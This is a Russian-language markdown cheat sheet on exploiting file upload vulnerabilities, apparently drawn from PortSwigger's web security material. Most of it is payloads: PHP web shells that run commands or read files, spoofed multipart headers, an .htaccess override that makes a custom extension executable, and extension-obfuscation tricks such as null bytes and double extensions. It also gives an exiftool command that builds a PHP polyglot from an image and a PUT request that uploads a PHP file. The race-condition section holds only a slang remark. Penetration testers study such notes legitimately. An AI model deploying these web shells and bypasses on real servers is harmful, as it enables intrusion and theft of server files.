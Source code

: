 [File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
## Эксплуатация неограниченной загрузки файлов для развертывания веб-оболочки
`<?php echo file_get_contents('/path/to/target/file'); ?>`
`<?php echo system($_GET['command']); ?>`
`GET /example/exploit.php?command=id HTTP/1.1`

## Эксплуатация несовершенной проверки загружаемых файлов
##### Неправильная проверка типа файла
`Content-Disposition: form-data; name="image"; filename="exploit.php"` 
`Content-Type: image/jpeg`

### Предотвращение выполнения файлов в каталогах, доступных пользователю
Веб-серверы часто используют поле `filename` в запросах `multipart/form-data` для определения имени и места сохранения файла.

### Недостаточный черный список опасных типов файлов
Черные списки иногда можно обойти, используя менее известные, альтернативные расширения файлов, которые могут быть исполняемыми, например .php5, .shtml и так далее.

### Переопределение конфигурации сервера
Чтобы Apache выполнял файлы PHP, запрошенные клиентом, разработчики должны добавить следующие директивы в файл `/etc/apache2/apache2.conf`:
`LoadModule php_module /usr/lib/apache2/modules/libphp.so`
`AddType application/x-httpd-php .php`

Многие серверы также позволяют разработчикам создавать специальные конфигурационные файлы в отдельных каталогах, чтобы переопределить или добавить к одной или нескольким глобальным настройкам. Серверы Apache, например, загружают конфигурацию для конкретной директории из файла `.htaccess`, если таковой имеется. 

Для эксплуатации можно перезаписать этот файл содержимым:
`AddType application/x-httpd-php .l33t`
В запросе загрузки файла изменить заголовок:
`Content-Type: text/plain`
И загрузить файл `shell.l33t` с хедерами:
`Content-Disposition: form-data; name="avatar"; filename="shell.l33t"`
`Content-Type: application/x-httpd-php`

На серверах IIS с помощью файла `web.config`:
`<staticContent>`
    `<mimeMap fileExtension=".json" mimeType="application/json" />`
`</staticContent>`

### Обфускация расширений файлов
Несколько расширений.
`exploit.php.jpg`
Символы в конце строки
`exploit.php.`
Кодировка URL (или двойная) для точек, прямых и обратных косых черт
`exploit%2Ephp`
Точка с запятой или символы нулевого байта, закодированные в URL, перед расширением файла:
`exploit.asp;.jpg`
`exploit.asp%00.jpg`
Если удаление/замена опасных расширений выполняется не рекурсивно:
`exploit.p.phphp`
Многобайтовые символы юникода, которые могут быть преобразованы в нулевые байты и точки после преобразования или нормализации юникода. Последовательности типа `xC0 x2E`,` xC4 xAE` или `xC0 xAE` могут быть преобразованы в `x2E`, если имя файла анализируется как строка UTF-8, но затем преобразуются в символы ASCII перед использованием в пути.

### Неправильная проверка содержимого файла
С помощью специальных инструментов, таких как ExifTool, можно легко создать полиглотный файл JPEG, содержащий вредоносный код в своих метаданных:
`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" kitten.jpg -o polyglot.php`

[Статья Bypass File Upload Restrictions](https://medium.com/codex/bypass-file-upload-restrictions-f30c88e1fccb)

### Эксплуатация file upload race conditions
рейс кондишн это жоска


## Эксплуатация уязвимостей загрузки файлов без удаленного выполнения кода
##### Загрузка вредоносных сценариев на стороне клиента.
Если можно загружать файлы HTML или изображения SVG, потенциально можно использовать теги `<script>` для создания [хранимых XSS](xss.md).

Обращаем внимание на то, что из-за ограничений [same-origin policy](cors.md) эти виды атак будут работать только в том случае, если загруженный файл будет обслуживаться из того же источника, в который был загружен.

### Эксплуатация уязвимостей при парсинге загруженных файлов
Если кажется, что загруженный файл и хранится, и обслуживается безопасно, в крайнем случае можно попробовать использовать уязвимости, связанные с разбором или обработкой различных форматов файлов. Например, вы знаете, что сервер анализирует файлы на основе XML, такие как файлы Microsoft Office .doc или .xls, это может быть потенциальным вектором для атак [XXE-инъекций](xxe-injection.md).

## Загрузка файлов с помощью PUT
Стоит отметить, что некоторые веб-серверы могут быть настроены на поддержку запросов PUT. При отсутствии соответствующей защиты это может стать альтернативным способом загрузки вредоносных файлов, даже если функция загрузки недоступна через веб-интерфейс:
`PUT /images/exploit.php HTTP/1.1`
`Host: vulnerable-website.com`
`Content-Type: application/x-httpd-php`
`Content-Length: 49`
``
`<?php echo file_get_contents('/path/to/file'); ?>`

Можно попробовать отправить запросы `OPTIONS` на различные конечные точки, чтобы проверить те из них, которые поддерживают метод `PUT`.